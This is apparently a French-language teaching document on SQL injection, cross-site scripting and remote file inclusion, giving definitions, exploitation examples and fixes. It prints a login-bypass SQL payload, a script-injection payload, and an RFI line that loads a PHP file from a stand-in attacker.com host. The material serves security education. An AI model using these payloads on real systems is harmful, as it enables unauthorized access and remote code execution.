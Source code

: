# Low - Injection SQL (SQLi)
## Définition:
L'injection SQL permet à un attaquant d'insérer (ou "injecter") du code SQL malveillant dans une requête SQL. Cela peut permettre à l'attaquant de manipuler des bases de données pour exfiltrer des informations sensibles, modifier des données ou même prendre le contrôle de la base de données.
## Comment l'utiliser:
Si tu as une page qui prend des entrées utilisateur, comme un champ de connexion, tu peux essayer d'injecter une commande SQL malveillante. Par exemple, dans un champ de "username", tu peux essayer: ```' OR 1=1 --```
Cette chaîne contourne la vérification du mot de passe en rendant la condition toujours vraie.
## Solution :
- Utiliser des requêtes préparées avec des paramètres liés.
- Valider et filtrer toutes les entrées des utilisateurs.
- Utiliser des comptes avec des privilèges limités sur la base de données.

# Medium - Cross-Site Scripting (XSS)
## Définition:
Le Cross-Site Scripting (XSS) permet à un attaquant d'injecter du code JavaScript malveillant dans une page web, qui sera ensuite exécuté dans le navigateur des utilisateurs lorsqu'ils consultent la page.
## Exploitation:
Par exemple, un attaquant peut injecter ce code dans un champ de commentaire vulnérable sur un site web: ```<script>alert('XSS')</script>```
Cela affichera une alerte dans le navigateur de la victime.
## Solution :
- Encoder toutes les sorties des données utilisateurs (par exemple, utiliser htmlspecialchars() en PHP).
- Mettre en place une politique de sécurité du contenu (CSP) pour restreindre les scripts non autorisés.
- Valider et assainir les entrées utilisateur, notamment les champs de formulaire.

# High - Remote File Inclusion (RFI)
## Définition:
L'attaque Remote File Inclusion (RFI) permet à un attaquant d'inclure un fichier malveillant depuis une URL externe. Si un site permet l'inclusion de fichiers sans validation, un attaquant peut injecter un fichier PHP malveillant, entraînant souvent l'exécution de code sur le serveur.
## Exploitation:
Par exemple, si un site web utilise un paramètre comme include.php?file=page.txt, un attaquant pourrait injecter : ```http://attacker.com/malicious_file.php```
Cela chargerait un fichier PHP malveillant depuis un serveur externe.
## Solution :
- Désactiver l'option allow_url_include dans PHP.
- N'accepter que des fichiers locaux pour l'inclusion et les valider.
- Utiliser une liste blanche de fichiers autorisés à inclure.

**********************************************************************************************************************************************

# Comment exploiter ces vulnérabilités
## SQL Injection (SQLi)
1) Exploitation simple :
- Injecter une chaîne comme ' OR 1=1 -- dans un champ de formulaire comme username.
- Cela modifie la requête SQL pour que la condition 1=1 soit toujours vraie, contournant la vérification du mot de passe.
2) Exemple :
- Sur une page de connexion, l'attaquant entre :
    - username: ' OR 1=1 --
    - password: (vide)
- La requête SQL devient SELECT * FROM users WHERE username='' OR 1=1 --' AND password='', ce qui renvoie toujours un résultat.

## XSS (Cross-Site Scripting)
1) Exploitation simple :
- Injecter un script JavaScript malveillant dans un champ vulnérable (comme un commentaire), qui sera ensuite exécuté dans le navigateur de l'utilisateur.
2) Exemple :
- Dans un champ de commentaire, l'attaquant entre: ```<script>alert('XSS')</script>```
- Lorsque quelqu'un consulte la page, ce script est exécuté dans son navigateur, affichant l'alerte.

## RFI (Remote File Inclusion)
1) Exploitation simple :
- Si le site inclut des fichiers via un paramètre comme include.php?file=page.txt, l'attaquant peut soumettre une URL externe pointant vers un fichier PHP malveillant.
2) Exemple :
- Si le site permet l'inclusion de fichiers, l'attaquant pourrait soumettre : ```http://attacker.com/malicious_file.php```
- Cela chargerait un fichier PHP malveillant et l'exécuterait sur le serveur.

**********************************************************************************************************************************************

# Comment résoudre ces vulnérabilités
## SQL Injection (SQLi)
1) Utiliser des requêtes préparées et des paramètres liés pour éviter l'injection.
2) Valider et filtrer toutes les entrées des utilisateurs.
3) Donner des privilèges limités aux comptes de la base de données (par exemple, en lecture seule pour les requêtes publiques).

## XSS (Cross-Site Scripting)
1) Encoder toutes les sorties pour éviter que le JavaScript soit exécuté (par exemple, avec htmlspecialchars()).
2) Mettre en place une Content Security Policy (CSP) pour limiter les sources de scripts autorisés.
3) Valider et filtrer toutes les entrées utilisateur dans les formulaires et autres champs.

## RFI (Remote File Inclusion)
1) Désactiver allow_url_include dans PHP.
2) Valider soigneusement les fichiers acceptés pour inclusion (n'accepter que des fichiers locaux).
3) Utiliser une liste blanche des fichiers autorisés à être inclus.
